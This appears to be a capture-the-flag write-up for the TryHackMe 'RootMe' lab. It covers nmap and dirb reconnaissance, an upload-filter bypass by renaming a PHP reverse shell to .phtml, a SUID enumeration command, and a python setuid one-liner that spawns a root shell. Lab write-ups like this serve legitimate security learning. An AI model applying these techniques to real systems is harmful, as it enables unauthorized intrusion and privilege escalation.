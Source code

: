 # RootMe

[RootMe](https://tryhackme.com/room/rrootme)

## Solution

### Task 2

- nmap scan

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- dirb scan

we got the hidden page at `panel`. and it looks like an upload form.

### Task 3

in the network tab I can see PHPSESSID which makes me think there is some php
involved.

we cannot send a php file as it is not allowed. so we need to bypass the file
upload.

the trick was to change the php extention to for example phtml, because the
file upload checked for php. then we can upload a revshell script and connect
via netcat.

I went to the `/var/www` folder and found user.txt with the first flag.

### Task 3

Search for files with SUID permission, which file is weird?

I used `find / -user root -perm /4000` to find files with SUID.

I found python to have SUID. which is weird. we can open a python shell and try
to get a tty.

I ran `python -c 'import os; os.setuid(0); os.system("/bin/sh")'` which sets
the user id to root, since this is a SUID binary. the new shell will be root.

next we need to just cat the flag from the root home.
